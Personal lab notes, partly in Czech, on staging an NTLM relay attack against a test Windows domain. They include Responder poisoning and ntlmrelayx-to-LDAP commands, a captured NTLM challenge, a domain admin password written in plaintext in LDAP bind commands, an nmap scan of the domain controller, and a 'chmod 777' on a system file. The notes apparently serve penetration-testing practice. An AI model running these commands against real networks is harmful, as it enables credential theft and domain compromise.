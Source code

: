 download win10 virtual from:  
https://tb.rg-adguard.net/public.php  
DHCP - prideluje ip v siti + DNS, mask atd  
Responder:  
https://github.com/SpiderLabs/Responder.git  
ve vmware prenastavit net configuration BRIDGE  
  
netstat -ano | findstr :445  
run cmd as admin  
taskkill /PID 4 /F  
  
sudo python Responder.py -I ens33  
  
nbtstat #na windows  
  
MDNS - multicast DNS  
LLMNR -  Link-Local Multicast Name Resolution  
NTLM - NT lan manager  
NTM - Network Time Manager  
  
1. SMB Command: Negotiate Protocol  
2. Session Setup AndX  
- mechToken -- too short  
- responsetoken  
- NTLMChalange b5:f8:84:d4:95:20:71:58 (8 bytu)  
- NTLMProofString   
NTProofStr: f7767292404e180abb7bee2e5c104dd3  
- NTLMClientChalange c8:5d:4c:6a:0e:31:ca:f0  
  
File "/home/osboxes/Responder/utils.py", line 130, in SaveToDb  
  
cursor.execute('CREATE TABLE responder (timestamp varchar(32), module varchar(16), type varchar(16), client varchar(32), hostname varchar(32), user varchar(32), cleartext varchar(128), hash varchar(512), fullhash varchar(512))')  
OperationalError: table responder already exists  
  
  
sudoedit /etc/UPower/UPower.conf  
IgnoreLid=true  
  
https://github.com/python-ldap/python-ldap.git  
shift+insert  
  
nelze spustit:  
sudo pip install python-ldap  
Modules/errors.h:8: fatal error: lber.h: No such file or directory  
reseni:  
sudo apt-get install libsasl2-dev python-dev libldap2-dev libssl-dev  
  
  
LDAP port 389  
https://likegeeks.com/linux-ldap-server/  
sudo apt-get install slapd  
sudo apt-get install ldap-utils  
systemctl enable slapd  
dappassword  
```python  
import ldap  
l = ldap.initialize("ldap://192.168.133.2")  
l.simple_bind_s("PESIK\\Administrator", "Turololo42")  
  
l.search_s("o=My Organisation, c=AU", ldap.SCOPE_SUBTREE, "objectclass=*")  
  
l.simple_bind_s("","")  
```  
```sh  
netstat -a  
  
ldapsearch -h 192.168.133.2 -D "PESIK\\Administrator" -w Turololo42  
ldapsearch -h 192.168.133.2 -D "cn=Administrator,dc=pesik,dc=localdomain" -w Turololo42  
ldapsearch -x -D 'cn=Administrator@pesik.localdomain' -h 192.168.133.2 -w Turololo42  
  
-W #prompt for bind password  
-x #Simple authentication  
-h ip  
-H URL  
-w password  
  
curl ldap://192.168.133.2  
  
sudo apt install openjdk-11-jre-headless default-jre openjdk-8-jre-headless  
```  
https://www.netiq.com/communities/cool-solutions/cool_tools/gawors-excellent-ldap-browsereditor-v282/  
  
version  
windows server 2012 r2  
  
allowing ldap on win server 2012 r2:  
https://blogs.msdn.microsoft.com/microsoftrservertigerteam/2017/04/10/step-by-step-guide-to-setup-ldaps-on-windows-server/  
  
AD LDS port: 50000  
HERUEKA:  
```sh  
ldapsearch -h 192.168.133.2:389 -D "PESIK\\Administrator" -w Turololo42  
```  
  
adding computer to domain:  
https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/deployment/join-a-computer-to-a-domain  
  
```sh  
smbclient -L 192.168.133.2 -U Administrator -W PESIK  
```  
  
turn off after-sleep login screen  
```sh  
sudo chmod 777 /etc/default/acpi-support  
vim /etc/default/acpi-support  
# LOCK_SCREEN=true  
```  
  
NTLM relaying in 2017  
https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html  
  
check smb signing  
https://github.com/actuated/check-smb-signing  
```sh  
sudo ./check-smb-signing.sh --nmap -a 192.168.133.2  
```  
regedit.exe  
http://techgenix.com/windows-smb-signing/  
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters  
enablesecuritysignitures  
  
LanManWorkstation  
  
  
look at PowerShell Empire  
  
```nmap  
Nmap scan report for 192.168.133.2  
Host is up, received user-set (0.0014s latency).  
Scanned at 2018-11-09 09:44:05 EST for 90s  
Not shown: 981 filtered ports  
Reason: 981 no-responses  
PORT      STATE SERVICE          REASON  
53/tcp    open  domain           syn-ack ttl 128  
88/tcp    open  kerberos-sec     syn-ack ttl 128  
135/tcp   open  msrpc            syn-ack ttl 128  
139/tcp   open  netbios-ssn      syn-ack ttl 128  
389/tcp   open  ldap             syn-ack ttl 128  
445/tcp   open  microsoft-ds     syn-ack ttl 128  
464/tcp   open  kpasswd5         syn-ack ttl 128  
636/tcp   open  ldapssl          syn-ack ttl 128  
3268/tcp  open  globalcatLDAP    syn-ack ttl 128  
3269/tcp  open  globalcatLDAPssl syn-ack ttl 128  
3389/tcp  open  ms-wbt-server    syn-ack ttl 128  
49154/tcp open  unknown          syn-ack ttl 128  
49155/tcp open  unknown          syn-ack ttl 128  
49156/tcp open  unknown          syn-ack ttl 128  
49158/tcp open  unknown          syn-ack ttl 128  
49159/tcp open  unknown          syn-ack ttl 128  
49167/tcp open  unknown          syn-ack ttl 128  
50000/tcp open  ibm-db2          syn-ack ttl 128  
50001/tcp open  unknown          syn-ack ttl 128  
```  
##ntlmrelayx.py  
LDAP client options:  
  --no-dump             Do not attempt to dump LDAP information  
  --no-da               Do not attempt to add a Domain Admin  
  --no-acl              Disable ACL attacks  
  --escalate-user ESCALATE_USER  
                        Escalate privileges of this user instead of creating a  
                        new one  
```sh  
sudo ./impacket/examples/ntlmrelayx.py -t ldap://192.168.133.2 -smb2support --no-dump --no-acl  
```  
  
